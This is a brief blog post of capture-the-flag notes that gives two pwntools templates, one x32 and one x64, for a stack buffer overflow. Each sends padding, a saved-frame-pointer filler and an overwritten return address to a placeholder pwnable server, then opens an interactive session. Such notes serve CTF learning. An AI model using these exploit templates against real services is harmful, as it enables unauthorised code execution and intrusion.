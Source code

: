 ```yaml
---
title: bof
author: janger
date: 2023-09-25
category: pwnables
layout: post
---
```




**pwntools for Return Address Overwrite(x32)**

{% highlight python %}
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 4
ret = p32(0x08048087)

payload = dummy + sfp + ret

p.send(payload)
p.interactive()
{% endhighlight %}

<br>

**pwntools for Return Address Overwrite(x64)**

```python3
from pwn import *

p = remote('example.pwnable.io', 8000)

dummy = b'A' * 20
sfp = b'B' * 8
ret = p64(0x08048087)

payload = dummy + sfp + ret

p.send(payload)
p.interactive()
```

<br>


